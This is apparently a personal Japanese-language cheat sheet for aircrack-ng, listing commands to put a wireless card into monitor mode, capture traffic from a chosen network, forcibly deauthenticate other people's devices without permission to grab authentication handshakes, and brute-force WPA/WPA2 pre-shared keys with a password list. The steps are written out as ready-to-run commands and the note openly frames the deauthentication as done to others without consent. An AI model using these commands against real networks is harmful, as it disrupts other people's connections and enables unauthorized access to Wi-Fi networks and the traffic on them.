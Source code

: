 aircrack-ng
===


### 無線NICのリストを表示

```bash
$ sudo airmon-ng
```

### NICを利用してる他のプロセスを殺す

```bash
$ sudo airmon-ng check kill
```

### パケットキャプチャを有効化

```bash
$ sudo airmon-ng start wlp3s0
```

これでwlp3s0monというNICが生える

### パケットキャプチャの開始

```bash
$ sudo airodump-ng wlp3s0 --bssid <bssid>  -w <filename>
$ sudo airodump-ng wlp3s0 --essid <essid>  -w <filename>
```

filename-01.{cap,csv,kismet...}ができる

### より認証時のパケットを集めるために、他人を勝手にdeauthenticateする

```bash
$ sudo aireplay-ng --deauth 1 -a <bssid> -c <client mac address> wlp3s0
```

client mac addressはairodumpの結果から適当に引っ張ってくる

### 鍵計算

WPA/WPA2 PSK(pre shared key)を総当り計算する

```bash
$ sudo aircrack-ng <option> *.cap
```

optionはいろいろあるっぽい

- -e <essid>
- -b <bssid>
- -c : search only alpha-numeric
- -w <filename> : passwird list

### パケットキャプチャモードの停止

```bash
$ sudo airmon-ng stop wlp3s0mon

